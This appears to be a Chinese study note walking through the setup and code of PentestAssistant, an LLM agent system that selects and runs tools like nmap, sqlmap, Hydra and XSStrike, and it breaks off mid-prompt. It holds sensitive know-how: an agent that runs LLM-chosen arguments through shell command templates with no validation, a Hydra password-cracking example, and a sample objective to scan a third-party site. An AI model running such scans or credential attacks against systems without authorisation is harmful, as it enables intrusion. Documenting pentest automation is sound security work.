<!--
 * @Author: coffeecat
 * @Date: 2025-03-04 16:53:48
 * @LastEditors: Do not edit
 * @LastEditTime: 2025-03-07 16:44:59
-->
# PentestAssistant
PentestAssistant 基于 Web 渗透检测工具，构建常用函数调用 API 知识库，
通过多代理的方式实现渗透任务建立和维护，
基于 RAG 技术实现渗透检测任务的执行，以此完成渗透检测的自动化过程。
> 什么意思？？？



支持两种渗透检测使用方式：
单一工具调用：指定渗透检测工具，用户给定自然语言描述任务，系统根据请求自动完成工具调用和执行
多工具联合调用：选择多款渗透检测工具，用户给定自然语言描述任务，系统自动选择工具，执行函数，实现需求


## 环境搭建与启动

```bash
#创建容器
sudo docker run -it --name penassit  -v ./xsc_workspace:
/workspace -p 8888:8888 pytorch/pytorch /bin/bash


apt upgrade
git clone https://github.com/HUSTInfSecLabs/PentestAssistant.git

# 请注意python版本 3.10比较好
# python --version
# Python 3.10.13

pip install -r requirements.txt 

#----------------------------------------------
# 安装插件和所需要的依赖包
pip3 install --upgrade setuptools
# CMSeek
git clone https://github.com/Tuhinshubhra/CMSeeK
pip install -r ./CMSeek/requirements.txt
mv ./CMSeeK/* ./plugin/CMSeek/
# Dirsearch
 git clone --branch v0.4.3 https://github.com/maurosoria/dirsearch.git
 pip install -r ./dirsearch/requirements.txt
 mv ./dirsearch/* ./plugin/Dirsearch/
# # Tplmap
#  git clone https://github.com/epinna/tplmap.git
#  pip install -r ./tplmap/requirements.txt --use-deprecated=legacy-resolver
#  mv ./tplmap/* ./plugin/Tplmap/Tplmap/
# XSStrike
 git clone https://github.com/s0md3v/XSStrike.git
 pip install -r ./XSStrike/requirements.txt
 mv ./XSStrike/* ./plugin/XSStrike/

```

```python
reranker_path = ./bge-reranker-large
[LLM]
llm_service = DeepSeek
llm_call_type = api

[LLM.DeepSeek]
model_name = DeepSeek-R1-Distill-Llama-70B
api_key = token123456
base_url = http://127.0.0.1:8888/v1
```

In this project, we use a reranker model to sort all api list to help LLM reduct the selection range, so we should download this reranker model: bge-reranker-large and modify the configuration.

```bash
curl -s https://packagecloud.io/install/repositories/github/git-lfs/script.deb.sh 
apt-get install git-lfs
git lfs install
GIT_LFS_SKIP_SMUDGE=1 git clone https://huggingface.co/BAAI/bge-reranker-large

cd bge-reranker-large

# 查看 LFS 文件指针（未下载时显示指针哈希）
git lfs ls-files

git lfs pull #全部文件
cd ..

```

Moreover, we need to install the following penetration testing tools for PenetestAssistant to call: Nmap, Sqlmap, **Tqlmap**, **Xsstrike**,  Dnsenum, Hydra, and **Dirsearch**. 

For Xsstrike, Tplmap, Dirsearch, and CMSeek, we have included them in our source code, so we do not need to install them again.


```bash
#安装sudo
# find /etc/sudoers.d
# 上述命令返回 No such file or directory，就说明你的系统没有安装sudo
apt-get install sudo
sudo apt update

#安装nmap
sudo apt install nmap
# sqlmap
sudo apt install sqlmap
sudo apt upgrade sqlmap
# dnsenum
sudo apt install dnsenum
#hydra
sudo apt install hydra

#验证
nmap --version 
sqlmap --version
hydra --version
dnsenum.pl --help

# Nmap version 7.80 ( https://nmap.org )
# 1.6.4#stable
# Hydra v9.2 (c) 2021

```


```bash
pip install --force-reinstall -v “openai==1.55.3”
```


```python
#启动
python app.py
```

成功启动如下:


### conquer
最开始因为卡的原因，使用的1.5B的模型，结果模型理解能力太差了，
又发现rerank-model仅仅占用400MB左右的显存，
所以再次启动70B的ds，然后设置显存利用率为0.9（由此需要的平衡操作是限制model-seq-len参数），
然后有了较好结果：



## 代码熟悉
### plugin

在该文件夹下是各个工具的使用方法

以nmap为例子，

```json
{"name": "default_scan", "description": "Perform a default port scan on a certain IP or URL to detect the services enabled by the target", "args": [{"name": "target", "description": "Target ip or hostname"}], "exec_str": "nmap -sV -sC '{{target}}'"}
```
可见，这是nmap的操作cmd命令指南

然后在plugin.py文件中对插件调用进行了封装。
```python
# plugin/plugin.py

#对一条命令的
#的参数的名称和功能描述的封装
class Parameter:
    name: str
    description: str

    def __init__(self, data: dict) -> None:
        self.name = data["name"]
        self.description = data["description"]

#对一条命令的封装
#包括 该命令名称、命令功能描述、参数列表、执行表达式
class Function:
    name: str
    description: str
    parameters: List[Parameter]
    exec_str: str

    def __init__(self, data: dict) -> None:
        self.name = data["name"]
        self.description = data["description"]
        self.exec_str = data["exec_str"]
        self.parameters = []
        for arg in data["args"]:
            self.parameters.append(Parameter(arg))
#对一组命令的封装
class Skill:
    functions: List[Function]

    def __init__(self, data: List[str]) -> None:
        self.functions = []
        for item in data:
            item = json.loads(item)
            self.functions.append(Function(item))

    def get_function(self, name: str) -> Function:
        for function in self.functions:
            if function.name == name:
                return function

        return None


# 比如说对上述例子中 nmap的jsonl文件的封装
class Plugin:

    def __init__(self) -> None:
        self.plugin_dir = os.path.dirname(__file__)
        # /PentestAssistant/plugin

    def read_skill(self, skill_name: str) -> Skill:
        skill_file_path = os.path.join(self.plugin_dir, skill_name ,f"{skill_name}.jsonl")
        # 即上述例子中的 nmap的jsonl文件

        if not os.path.exists(skill_file_path):
            return []

        with open(skill_file_path, "r") as fp:
            lines = fp.readlines()

        return Skill(lines)

```


### model
这里没什么可说的
就是首先实现一个抽象基类ChatModel，

```python
from abc import ABC, abstractmethod


class ChatModel(ABC):

    def __init__(self) -> None:
        super().__init__()

    @abstractmethod
    def chat(self, prompt: str = None) -> str:
        pass

```
然后之后所有的model通过继承该类，实现chat方法用于交互，  
值得一提的是，这里都用的openai的库实现，而且通过配置文件确定读取那个api   
如下面的deepseek
```python
from model.base import ChatModel
from config import config_manager

from openai import OpenAI


class GPTChatModel(ChatModel):

    def __init__(self):
        super().__init__()
        api_key = config_manager.config["LLM.GPT"]["api_key"]
        base_url = config_manager.config["LLM.GPT"]["base_url"]
        self.model_name = config_manager.config["LLM.GPT"]["model_name"]
        self.client = OpenAI(api_key=api_key, base_url=base_url)

    # 基本的模型对话
    def chat(self, prompt: str = None) -> str:
        completion = self.client.chat.completions.create(
            model=self.model_name,
            messages=[{
                'role': 'system',
                'content': 'You are a helpful assistant.'
            }, {
                'role': 'user',
                'content': prompt,
            }],
        )
        return completion.choices[0].message.content

```

> 这里qwen加了一个function calling，而其他的如deepseek并未实现
``` python
"""
tool的格式
以nmap工具为例子
skill_name即工具名称nmap，function即nmap的一条命令，args是该命令相关参数
tool = {
            "type": "function",
            "function": {
                "name": self.skill_name + "." + function.name,
                "description": function.description,
                "parameters": {
                    "type": "object",
                    "properties": {
                        arg.name: {
                            "type": "string",
                            "description": arg.description
                        }
                        for arg in function.parameters
                    }
                },
                "required": []
            }
        }
"""
# 模型调用工具！！！
# 模型根据可调用工具命令 选择最合适的命令及具体参数
def function_call(self, prompt: str = None, tools: Optional[List[Dict]] = None) -> str:
        completion = self.client.chat.completions.create(
            model=self.model_name,
            messages=[{
                'role': 'system',
                'content': 'You are a helpful assistant.'
            }, {
                'role': 'user',
                'content': prompt,
            }],
            tools=tools,
        )
        return completion.model_dump()['choices'][0]['message']['tool_calls'][0]['function']
"""
返回示例：
{
    "name": "nmap.scan_network",
    "arguments": "{\"target\": \"192.168.1.0/24\"}"
}
然后后续供shell解析执行即可
"""
```

> 好像没什么不同，尝试直接在基类中添加该工具调用方法

### planner
首先是两个抽象基类
```python
# 对执行计划的封装
# 包括prompt,goal, 生成的计划
class Plan:
    """A simple plan object for the Semantic Kernel"""

    def __init__(self, prompt: str, goal: str, generated_plan: Union[dict, str]):
        self.prompt = prompt
        self.goal = goal
        self.generated_plan = generated_plan

    def __str__(self):
        return f"Prompt: {self.prompt}\nGoal: {self.goal}\nPlan: {self.generated_plan}"

    def __repr__(self):
        return str(self)

# 计划具体执行器 --> 将自然语言plan翻译成具体命令plan并执行
# 具体做法是从 上述插件命令数据集中 检索最相关cmd命令,构造具体执行命令的计划， 并通过subprocess进行cmd的执行
class Planner(ABC):
    """A planner aim to retrieve similar api from specific database according to user query"""

    def __init__(self, chat_model: ChatModel, skill_name: str = None, reranker: Retrieval = None) -> None:
        self.skill_name = skill_name
        self.chat_model = chat_model
        self.reranker = reranker

    @abstractmethod
    def create_plan(self, goal: str) -> Optional[Plan]:
        pass

    @abstractmethod
    def execute_plan(self, plan: Plan) -> str:
        pass
```

还是比如nmap_plammer
```python
class NmapPlanner(Planner):
    """A planner for nmap tool api retrieval"""

    def __init__(self, chat_model, skill_name=None, reranker=None):
        super().__init__(chat_model, skill_name, reranker)
        self.skill = plugin.read_skill(self.skill_name)


    # 根据工具命令的功能描述  与 目标goal 做相似度匹配， 获取topk的工具命令，
    # 这里是rag增强的，llm将基于topk命令进一步选择出最合适的命令及其参数
    def _create_available_functions(self, goal: str) -> str:
        """
        generates a filtered list of callable tools (functions) based on their relevance to a given goal.
        """
        functions = self.skill.functions
        functions_description = []
        for function in functions:
            functions_description.append(function.description)

        # 根据工具命令的功能描述  与 目标goal 做相似度匹配， 获取topk的工具命令
        topk_descriptions = self.reranker.compute_topk(goal, functions_description, top_k=10)

        # Create the [AVAILABLE FUNCTIONS] section of the tools
        tools = []
        for function in functions:
            if function.description not in topk_descriptions:
                continue

            tool = {
                "type": "function",
                "function": {
                    "name": self.skill_name + "." + function.name,
                    "description": function.description,
                    "parameters": {
                        "type": "object",
                        "properties": {
                            arg.name: {
                                "type": "string",
                                "description": arg.description
                            }
                            for arg in function.parameters
                        }
                    },
                    "required": []
                }
            }
            tools.append(tool)

        logger.info(": available_functions - {tools}".format(tools=tools))
        return tools


    def create_plan(
        self,
        goal: str,
    ) -> Tuple[int, Plan]:
        """
        Creates a plan for the given goal based off the functions that
        are available in the plugins.
        """

        # Create the tools list for the planner with the given goal
        tools = self._create_available_functions(goal)

        # llm将基于topk命令进一步选择出最合适的具体命令及其参数
        generated_plan = self.chat_model.function_call(goal, tools)
        logger.info(f"generated_plan - {generated_plan}")

        return 0, Plan(prompt=goal, goal=goal, generated_plan=generated_plan)

    # subprocess子进程
    # 调用具体nmap命令并获取结果
    def _exec_nmap(self, cmd: str) -> str:
        process = subprocess.run(cmd.split(), capture_output=True)

        if process.returncode != 0:
            logger.warn(f": nmap call error - {repr(cmd)} - {repr(process.stderr.decode())}")

        return process.stdout.decode("utf-8", "ignore")

    # llm生成的具体命令plan的执行
    # 调用上面函数执行命令并返回结果
    def execute_plan(self, plan: Plan) -> str:
        """
        Given a plan, execute each of the functions within the plan
        from start to finish and output the result.
        """
        logger.info(": Nmap Planner Plan -: {plan}".format(plan=repr(plan.generated_plan)))
        generated_plan_json = plan.generated_plan

        #这里就是llm生成的json解析
        # get function from generated_plan_json
        _, function_name = generated_plan_json["name"].split(".")
        function = self.skill.get_function(function_name)

        # parse params from generated_plan_json and exec function
        exec_str = function.exec_str
        if isinstance(generated_plan_json["arguments"], str):
            generated_plan_json["arguments"] = json.loads(generated_plan_json["arguments"])

        for arg_name, arg_value in generated_plan_json["arguments"].items():
            exec_str = exec_str.replace(f"{{{{{str(arg_name)}}}}}", str(arg_value))

        result = self._exec_nmap(exec_str)

        return result

```
>
>ToolsPlanner类与上述类差不多，
>NmapPlanner理论来讲应该是 通用的 。。。

此外，还有两个类ShortenSuggestion 和 CapChecker
```python
class CapChecker(Planner):

    def __init__(self, chat_model, skill_name=None, reranker=None):
        super().__init__(chat_model, skill_name, reranker)

    def create_plan(self, goal: str) -> Tuple[int, Plan]:
        logger.info(f": CapChecker input- {repr(goal)}")

        # Create the context for the planner
        prompt = PROMPT.format(input=goal)
        response = self.chat_model.chat(prompt)

        return 0, Plan(prompt=PROMPT, goal=goal, generated_plan=response)

    def execute_plan(self, plan: Plan) -> str:
        return int(plan.generated_plan)


class ShortenSuggestion(Planner):

    def __init__(self, chat_model, skill_name=None, reranker=None):
        super().__init__(chat_model, skill_name, reranker)

    def create_plan(self, goal: str) -> Plan | None:
        logger.info(f": Capability check query input - {repr(goal)}")

        # Create the context for the planner
        prompt = PROMPT.format(input=goal)
        response = self.chat_model.chat(prompt)

        return Plan(prompt=PROMPT, goal=goal, generated_plan=response)

    def execute_plan(self, plan: Plan) -> str:
        return plan.generated_plan

```

两个类的主要差别应该在于prompt，主要函数都是create_plan
对于CapChecker的prompt如下：
```python
"""
#这里是中文翻译，比较方便
-----------------------------------
你是一个精通Web渗透测试知识的规划机器人。
你的任务是根据你对渗透测试目标的理解，判断用户的[目标]是否需要使用NMAP工具、CMSeek工具、Dirsearch工具、Hydra工具、Sqlmap工具、Tplmap工具、XSStrike工具，还是仅仅需要分析总结。

- 如果以上工具都不需要，则输出“0”。
- 如果需要NMAP工具，则输出“1”。
- 如果需要CMSeek工具，则输出“2”。
- 如果需要Dirsearch工具，则输出“3”。
- 如果需要Hydra工具，则输出“4”。
- 如果需要Sqlmap工具，则输出“5”。
- 如果需要Tplmap工具，则输出“6”。
- 如果需要XSStrike工具，则输出“7”。
------------------------------------
"""
"""
You are a planning robot proficient in Web penetration testing knowledge.  
Your task is to determine, based on your understanding of penetration testing objectives, whether the user's [objective] requires the use of the NMAP tool, CMSeek tool, Dirsearch tool, Hydra tool, Sqlmap tool, Tplmap tool, XSStrike tool, or just analysis and summary.  

- If none of the above tools are required, output "0".  
- If the NMAP tool is required, output "1".  
- If the CMSeek tool is required, output "2".  
- If the Dirsearch tool is required, output "3".  
- If the Hydra tool is required, output "4".  
- If the Sqlmap tool is required, output "5".  
- If the Tplmap tool is required, output "6".  
- If the XSStrike tool is required, output "7".  

Do not output anything other than "0", "1", "2", "3", "4", "5", "6", "7". Stop output immediately after completing the task.  

Below are two examples:  

[Objective]  
Help me scan the ports of www.baidu.com and check for SQL vulnerabilities.  
[Output]  
5  

[Objective]  
Can you check if there are XSS vulnerabilities in the web service at 172.20.0.59:11453?  
[Output]  
7  

End of examples. Real application begins below:  

[Objective]  
{input}  
[Output]  
"""
```
简单来说，**对于目标goal，首先让llm判断下是否需要使用这些工具,这就是CapChecker的主要功能**
至于ShortenSuggestion的prompt如下：
```python
"""
你是一个句子压缩机器人，擅长将长建议缩短为简洁的建议，同时保留原意。要缩短的建议位于“[Advice]”部分下。请在“[Result]”部分下输出压缩结果。

以下是示例：

[Advice]
假设所有输入都是恶意的。使用“接受已知良好”的输入验证策略，该策略采用严格定义的可接受输入列表。拒绝任何不严格符合规范的输入或将其转换为合规形式。执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的全部范围、缺失或额外输入、语法、相关字段之间的一致性以及对业务规则的遵守情况。例如，作为业务规则，“boat”在语法上是有效的，因为它只包含字母数字字符。但是，如果输入预计只包含“红色”或“蓝色”等颜色，则无效。
不要仅仅依赖于识别恶意或格式错误的输入。这种方法很可能会漏掉至少一个不需要的输入，特别是如果代码环境发生变化，从而为攻击者绕过预期的验证留下了空间。但是，拒绝列表可以帮助检测潜在攻击或识别格式错误的输入，这些输入应该被直接拒绝。
构造 SQL 查询字符串时，使用严格的允许列表根据请求中参数的预期值来限制字符集。这间接减少了攻击面，但这种技术不如正确的输出编码和转义那么重要。
正确的输出编码、转义和引号是防止 SQL 注入的最有效解决方案，即使输入验证可以提供一些纵深防御。这是因为它有效地限制了可能出现在输出中的内容。输入验证并不总能防止 SQL 注入，特别是如果支持可能包含任意字符的自由文本字段。例如，名称“O'Reilly”可能会通过验证，因为它是英语中的常见姓氏。但是，它不能直接插入数据库，因为它包含撇号“'”，需要对其进行转义或以其他方式处理。在这种情况下，删除撇号可能会降低 SQL 注入的风险，但可能会因记录错误的名称而导致不正确的行为。
在可行的情况下，最安全的方法可能是完全禁止使用元字符，而不是对其进行转义。这提供了一定程度的纵深防御。将数据输入数据库后，后续处理步骤可能会在使用前忽略转义，并且您可能无法控制这些过程。

[结果]
输入验证策略：使用“接受已知良好”策略拒绝或转换不合规的输入，同时考虑长度、类型、范围、语法、一致性和业务规则。
避免仅依赖检测：不要仅依赖检测恶意或格式错误的输入；使用允许和拒绝列表增强安全性。
SQL 查询构造：使用允许列表来限制 SQL 查询字符集，但优先考虑输出编码、转义和引号，以有效防止 SQL 注入。
禁用元字符：在可行的情况下，完全禁用元字符而不是转义它们以提供更深层次的防御。

示例结束。实际应用从下面开始。使用“[End]”结束输出。

[建议]
{输入}
[结果]
"""


PROMPT = """
You are a sentence-compression robot skilled in shortening long advice into concise suggestions while preserving the original meaning. The advice to be shortened is under the "[Advice]" section. Please output the compressed result under the "[Result]" section.

Below is an example:

[Advice]  
Assume all inputs are malicious. Use an "accept known good" input validation strategy, which employs a strictly defined list of acceptable inputs. Reject any input that does not strictly conform to specifications or transform it into a compliant form. When performing input validation, consider all potentially relevant attributes, including length, input type, full range of acceptable values, missing or extra inputs, syntax, consistency between related fields, and compliance with business rules. For example, as a business rule, "boat" is syntactically valid because it contains only alphanumeric characters. However, it is invalid if the input is expected to include only colors such as "red" or "blue."  
Do not rely solely on identifying malicious or malformed inputs. This approach is likely to miss at least one unwanted input, especially if the environment of the code changes, leaving room for attackers to bypass expected validations. However, deny-lists can help detect potential attacks or identify inputs so malformed they should be outright rejected.  
When constructing SQL query strings, use a strict allow-list to limit the character set based on the expected values of parameters in the request. This indirectly reduces the attack surface, but this technique is less critical than proper output encoding and escaping.  
Proper output encoding, escaping, and quoting are the most effective solutions for preventing SQL injection, even though input validation may provide some defense-in-depth. This is because it effectively limits the content that may appear in the output. Input validation does not always prevent SQL injection, particularly if free-text fields that may contain arbitrary characters are supported. For example, the name "O'Reilly" might pass validation because it is a common surname in English. However, it cannot be directly inserted into a database because it contains the apostrophe character "'", which needs to be escaped or otherwise handled. In such cases, removing apostrophes might reduce the risk of SQL injection but could cause incorrect behavior by recording incorrect names.  
Where feasible, the safest approach may be to completely disallow the use of meta-characters rather than escaping them. This provides a level of defense-in-depth. Once data is input into the database, subsequent processing steps might ignore escaping before use, and you may not control those processes.  

[Result]  
Input validation strategy: Use an "accept known good" strategy to reject or transform non-compliant inputs while considering length, type, range, syntax, consistency, and business rules.  
Avoid sole reliance on detection: Don't rely solely on detecting malicious or malformed inputs; enhance security with allow- and deny-lists.  
SQL query construction: Use allow-lists to restrict SQL query character sets, but prioritize output encoding, escaping, and quoting to prevent SQL injection effectively.  
Disable meta-characters: Where feasible, completely disable meta-characters instead of escaping them to provide deeper defense.  

End of example. Real application begins below. Conclude the output with "[End]".  

[Advice]  
{input}  
[Result]  

"""
```
也就是说，**对于目标goal，让llm压缩下goal并不改变语义,这就是ShortenSuggestion的主要功能**


### retrieval
同样，首先是一个基类
```python
from typing import List
from abc import ABC, abstractmethod


class Retrieval(ABC):

    def __init__(self, embedding_name_or_path: str) -> None:
        self.embedding_name_or_path = embedding_name_or_path
    
    #计算query与 工具命令中最相关的 topk条
    @abstractmethod
    def compute_topk(self, query: str, answer_list: List[str], top_k: int) -> List[str]:
        pass

```
然后首先写了一个bge_embedding类，用于计算一句话的score
```python
class BgeEmbedding(Retrieval):

    def __init__(self, embedding_name_or_path: str) -> None:
        super().__init__(embedding_name_or_path)

        self.tokenizer = AutoTokenizer.from_pretrained(self.embedding_name_or_path)
        self.model = AutoModelForSequenceClassification.from_pretrained(self.embedding_name_or_path)
        self.model.eval()


    #Tuple[str] 表示一个只有一个元素且该元素类型为字符串的元组
    ## 定义一个元组，包含一个字符串元素
    #x: Tuple[str] = ("hello",)  # 注意：单元素元组需要逗号！
    
    #计算一句话的logits分数
    #logits是(bs=1,seq,vocab_sz)
    #转换为(bs=1,seq,hd) -> (bs=1,seq*vocab_sz)
    @torch.no_grad()
    def compute_score(self, pair: Tuple[str]) -> float:
        inputs = self.tokenizer(pair, padding=True, truncation=True, return_tensors='pt', max_length=512)

        scores = self.model(**inputs, return_dict=True).logits.view(-1,).float()
        return scores

    
    #显而易见，计算两句话的logits
    @torch.no_grad
    def compute_scores(self, pairs: List[Tuple[str, str]]) -> List[float]:
        all_score = []
        for pair in pairs:
            all_score.append(self.compute_score(pair))
        return all_score
```
> 这里为啥不直接批量计算呢？？
> 而且，这个类好像也没有被使用


bge_reranker类

FlagEmbedding 是一个由 BAAI（北京智源人工智能研究院） 团队开发的开源工具包，主要用于支持其发布的 BGE（BAAI General Embedding）系列模型。
FlagReranker 是该工具包中的一个模块，专门用于**文本重排序（Reranking）**任务
基于预训练的深度学习模型（如 bge-reranker-base 或 bge-reranker-large），对“查询-文档”对进行相关性打分，取代传统的基于关键词或简单相似度的排序方法。

```python
from typing import List

import torch
import numpy as np
from FlagEmbedding import FlagReranker

from retrieval.base import Retrieval
class BgeReranker(Retrieval):

    def __init__(self, embedding_name_or_path: str, use_fp16: bool = True) -> None:
        super().__init__(embedding_name_or_path)
        self.reranker = FlagReranker(embedding_name_or_path, use_fp16=use_fp16)

    def _get_top_k_values(self, lst: List[int], top_k: int) -> List[str]:
        arr = np.array(lst)
        top_k_indices = np.argsort(arr)[-top_k:]
        top_k_values = arr[top_k_indices]

        return top_k_values, top_k_indices


    # 获得tokp答案
    @torch.no_grad()
    def compute_topk(self, query: str, answer_list: List[str], top_k: int) -> List[str]:
        pairs = [[query, answer] for answer in answer_list]
        # 对“查询-文档”对进行相关性打分
        scores = self.reranker.compute_score(pairs)
        _, top_k_indices = self._get_top_k_values(scores, top_k)

        sorted_answer = []
        for index in range(0, min(top_k, len(pairs))):
            sorted_answer.append(answer_list[top_k_indices[index]])

        sorted_answer.reverse()
        return sorted_answer
```
进一步的，请看下面这个类
```python

class BgeRerankerLargeMultiRetrieval(Retrieval):
    def __init__(self, embedding_name_or_path: str, use_fp16: bool = True) -> None:
        super().__init__(embedding_name_or_path)
        self.reranker = FlagReranker(embedding_name_or_path, use_fp16=use_fp16)

    def _get_top_k_values(self, lst: List[float], top_k: int):
        arr = np.array(lst)
        top_k_indices = np.argsort(arr)[-top_k:]
        top_k_values = arr[top_k_indices]

        top_k_values = list(top_k_values)
        top_k_values.reverse()
        top_k_indices = list(top_k_indices)
        top_k_indices.reverse()
        return top_k_values, top_k_indices

    @torch.no_grad()
    def compute_topk(self, query: str, function_info: dict, keyword2function: dict, top_k: int) -> List[str]:
        function_names = list(function_info.keys())
        # 与命令的描述信息的相关性分数
        description_pairs = [[query, item["description"]] for item in function_info.values()]
        description_scores = self.reranker.compute_score(description_pairs)

        # 与样例信息的相关性分数
        sample_pairs = []
        for item in function_info.values():
            sample_pairs.extend([[query, sample] for sample in item["samples"]])
        sample_scores = self.reranker.compute_score(sample_pairs)
        sample_scores = [sum(sample_scores[i:i + 10]) / 10 for i in range(0, len(sample_scores), 10)]

        # ... #todo
        keyword_scores = [0.0] * len(function_info)
        keywords = list(keyword2function.keys())
        for keyword in keywords:
            if keyword in query.lower():
                for function_name in keyword2function[keyword]:
                    keyword_scores[function_names.index(function_name)] = 1

        scores = []
        for i in range(len(function_info)):
            # 最终分数是由， query与描述信息，关键字信息，样例信息的相关性综合排序的
            #比例为 1 1 4
            scores.append(float(0.5 * description_scores[i] + 0.5 * sample_scores[i] + 2 * keyword_scores[i]))
        _, top_k_indices = self._get_top_k_values(scores, top_k)

        sorted_answer = []
        for index in range(0, min(top_k, len(function_info))):
            sorted_answer.append(function_names[top_k_indices[index]])

        return sorted_answer
```
至此，plugin封装提取各个工具的命令信息，
retrieval 将计算工具命令信息 与 目标goal的相关性，返回topk命令供模型进一步选择，
plan封装了自然语言的计划，而planner具体根据plan创建命令计划并开启子进程执行。


工具具体执行链路基本完整， 接下来重点关注如何进行任务规划利用工具解决问题。

### agent
同样的一个抽象基类，然后后面的子类主要实现process方法
note：很多agent 仅仅是为process方法提供的prompt不同
下面具体查看都提供了什么prompt

#### analyst
> 子进程执行工具获取结果后
> 结果分析agent
**您的工作是根据用户的要求和数据提供答案。**
比如：
**[用户输入]请简单分析并总结上述 Hydra 工具的输出结果。**
**[结果]Hydra工具一次性成功破解目标主机（10.12.189.59:11452）的HTTP GET服务，识别出有效的用户名和密码组合：websds/websds123。**


```text
您是一名具备渗透测试知识和分析技能的 Web 安全扫描助理。
您的工作是根据用户的要求和数据提供答案。用户要求将以 [用户输入]xxxxx[用户输入结束] 格式给出，数据将以 [数据]xxxx[数据结束] 格式提供。您需要使用 [结果]xxx 格式进行响应。以下是示例：

[数据]

Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - 请勿在军事或特勤局组织中使用，也不要用于非法目的（这不具约束力，这些***无论如何都无视法律和道德）。

Hydra (https://github.com/vanhauser-thc/thc-hydra) 于 2024-09-19 02:05:42 开始
[DATA] 每台服务器最多 1 个任务，总共 1 个任务，1 次登录尝试 (l:1/p:1)，每个任务约 1 次尝试
[DATA] 攻击 http-get://10.12.189.59:11452/
[11452][http-get] 主机：10.12.189.59 登录名：websds 密码：websds123
1 个目标中的 1 个成功完成，找到 1 个有效密码
Hydra (https://github.com/vanhauser-thc/thc-hydra) 于 2024-09-19 02:05:43 完成

[数据结束]

[用户输入]
请简单分析并总结上述 Hydra 工具的输出结果。

[用户输入结束]
[结果]
Hydra工具一次性成功破解目标主机（10.12.189.59:11452）的HTTP GET服务，识别出有效的用户名和密码组合：websds/websds123。
示例完成。下面是实际应用场景：

[数据]
{数据}
[数据结束]

[用户输入]
{用户输入}
[用户输入结束]

[结果]
```
#### agent/planner.py
> 根据用户请求，指定安全攻击计划
> 计划者
**你的任务是协助用户使用这些工具识别 Web 应用程序中的安全问题。**
**首先根据用户指定的目标 [用户输入] 提供高级别的安全扫描流程 [计划]。**
**每个流程必须以任务编号开头，并且每个流程都应在一行中描述。**
**如果当前工具无法实现用户的目标，请直接告知用户。**
```text
你是一名 Web 安全扫描助理，精通使用 NMAP、W3AF、CMSeek、Dirsearch、Hydra、Sqlmap、tplmap 和 XSStrike 等工具。你的任务是协助用户使用这些工具识别 Web 应用程序中的安全问题。

你需要首先根据用户指定的目标 [用户输入] 提供高级别的安全扫描流程 [计划]。每个流程必须以任务编号开头，并且每个流程都应在一行中描述。不要输出多行。

请注意，你不需要使用所有工具；有时只需使用 NMAP 或其他工具即可。你必须将第一步标记为 [当前步骤]。

如果当前工具无法实现用户的目标，请直接告知用户。此外，如果某个步骤需要使用上述工具之一，请确保指定扫描目标（ip 或网站等），并在必要时包含扫描端口。

例如：

[用户输入]
我想检查我的网页上是否存在 SQL 注入的可能性。
[用户输入结束]

[计划]
1.准备阶段，使用.... [当前步骤]
2.检测阶段，使用xx工具....
3. ....
[计划结束]

如果任务无法完成，以下是示例：

[用户输入]
我想检查我的Web服务上是否存在堆栈溢出漏洞。
[用户输入结束]

[计划]
抱歉，基于我可以使用的工具，我无法完成您的请求。
[计划结束]

严格按照上述说明操作，仅输出：
[计划]
....
[计划结束]

仅包含编号步骤。不要输出任何其他内容。以上是为您提供的工作示例。以下是真实的应用场景：

[用户输入]
{userinput}
[用户输入结束]

[计划]
```
#### plan checker 与 param checker

plan checker

> 进一步确定计划中的某步骤是否能够完成
> 验证者
**你的任务是确定某个步骤是否可以使用上述能力完成。**

**如果该步骤无法完全完成或涉及手动流程，则输出“manu”。如果该步骤可以使用上述渗透测试工具完成，则输出“auto”。如果该步骤可以使用你的分析技能完成，则输出“anal”。**


```text
